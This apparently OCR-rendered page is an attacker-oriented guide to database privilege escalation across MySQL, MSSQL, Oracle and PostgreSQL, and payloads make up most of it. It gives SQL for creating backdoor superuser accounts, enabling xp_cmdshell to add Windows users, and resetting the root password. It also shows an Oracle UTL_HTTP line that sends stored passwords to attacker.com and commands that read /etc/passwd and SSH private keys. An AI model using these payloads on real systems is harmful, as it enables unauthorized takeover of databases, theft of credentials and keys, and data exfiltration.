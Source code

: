 #### **Database-Specific Examples**  
| **Database** | **SQL Command**                                                                 | **Description**                                                                 |  
|--------------|--------------------------------------------------------------------------------|--------------------------------------------------------------------------------|  
| **MySQL**    | ```sql CREATE USER 'hacker'@'%' IDENTIFIED BY 'password'; GRANT ALL PRIVILEGES ON *.* TO 'hacker'@'%' WITH GRANT OPTION; ``` | Creates a user with full privileges across all databases and hosts. |  
| **MSSQL**    | ```sql EXEC sp_addsrvrolemember 'hacker', 'sysadmin'; ```                        | Adds the user `hacker` to the `sysadmin` role, granting system-level administrative access. |  
| **Oracle**   | ```sql GRANT DBA TO hacker; ```                                                 | Assigns the `DBA` role, providing full database administrative privileges. |  
| **PostgreSQL**| ```sql CREATE ROLE hacker WITH SUPERUSER LOGIN PASSWORD 'password'; ```         | Creates a superuser capable of performing any action within the database. |  

**Execution Context**:  
- Attackers first verify their current permissions (e.g., `SHOW GRANTS;` in MySQL) to ensure they have the `GRANT OPTION` or `CREATE USER` privileges.  
- If successful, the new administrative account can be used to bypass authentication mechanisms or execute further attacks.  

---

### **2. Enabling High-Risk Functions**  
Exploiting built-in database functions that execute system commands or interact with external systems allows attackers to bypass application-layer restrictions.  

#### **Common Exploitable Functions**  
| **Database** | **Function/Procedure**       | **Example Payload**                                                                 | **Impact**                                                                 |  
|--------------|------------------------------|------------------------------------------------------------------------------------|---------------------------------------------------------------------------|  
| **MSSQL**    | `xp_cmdshell`                | ```sql EXEC xp_cmdshell 'net user hacker Password123 /add'; ```                     | Adds a new Windows user with administrative privileges.                    |  
| **Oracle**   | `UTL_HTTP`/`UTL_TCP`         | ```sql BEGIN UTL_HTTP.REQUEST('http://attacker.com?data=' || (SELECT password FROM users)); END; ``` | Exfiltrates data via HTTP requests.                                        |  
| **MySQL**    | `LOAD_FILE()`/`SELECT INTO`  | ```sql SELECT LOAD_FILE('/etc/passwd') INTO OUTFILE '/tmp/stolen_data.txt'; ```      | Reads/writes files on the server’s filesystem.                            |  
| **PostgreSQL**| `pg_read_file()`            | ```sql SELECT pg_read_file('/root/.ssh/id_rsa'); ```                                | Accesses sensitive files like SSH keys.                                   |  

**Attack Workflow**:  
1. **Enable Disabled Functions**: If `xp_cmdshell` is disabled in MSSQL, attackers may enable it via:  
   ```sql  
   EXEC sp_configure 'show advanced options', 1; RECONFIGURE;  
   EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;  
   ```  
2. **Execute Commands**: Use the enabled function to run system commands (e.g., `net user`, `chmod`, or `curl` to download malware).  

---

### **3. Modifying Existing Accounts**  
Attackers often target existing administrative accounts (e.g., `root`, `sa`, or `SYS`) to reset passwords or alter privileges.  

#### **Example Scenarios**  
- **MySQL**:  
  ```sql  
  UPDATE mysql.user SET authentication_string = PASSWORD('new_password') WHERE User = 'root';  
  FLUSH PRIVILEGES;  
  ```  
  This resets the `root` user’s password, granting full administrative access.  
